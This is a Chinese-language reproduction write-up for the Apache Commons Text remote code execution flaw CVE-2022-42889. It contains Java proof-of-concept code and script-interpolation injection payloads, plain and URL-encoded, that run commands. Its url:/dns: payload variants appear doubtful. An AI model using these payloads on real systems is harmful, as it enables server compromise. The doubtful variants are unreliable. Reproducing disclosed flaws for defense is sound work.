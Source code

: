 # Apache Commons Text 远程代码执行漏洞 CVE-2022-42889

## 漏洞描述

Apache Commons Text 项目实现了一系列关于文本字符串的算法，专注于处理字符串和文本块。10月13日，Apache发布安全公告，修复了Apache Commons Text中的一个远程代码执行漏洞（CVE-2022-42889）。Apache Commons Text版本1.5到1.9中，由于不安全的插值默认值，当输入的参数不受信任时，可能导致远程代码执行。

## 漏洞影响

```
1.5.0 ≤ Apache Commons Text ＜ 1.10.0
```

## 环境搭建

IDEA 通过 Maven 导入依赖，pox.xml 如下：

```
<dependencies>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-configuration2</artifactId>
        <version>2.7</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-text</artifactId>
        <version>1.9</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-lang3</artifactId>
        <version>3.12.0</version>
    </dependency>
</dependencies>
```

测试代码：

```
package org.text;

import org.apache.commons.text.StringSubstitutor;

public class Main {
    public static void main(String[] args) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        // String payload = interpolator.replace("${script:js:new
        // java.lang.ProcessBuilder(\"calc\").start()}");
        String payload = "${script:js:new java.lang.ProcessBuilder(\"calc\").start()}";
        interpolator.replace(payload);
    }
}
```

## 漏洞复现

Payload：

```
search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}

url编码
search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D

可以尝试
search=${url:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
search=${dns:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```

## 修复建议

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本。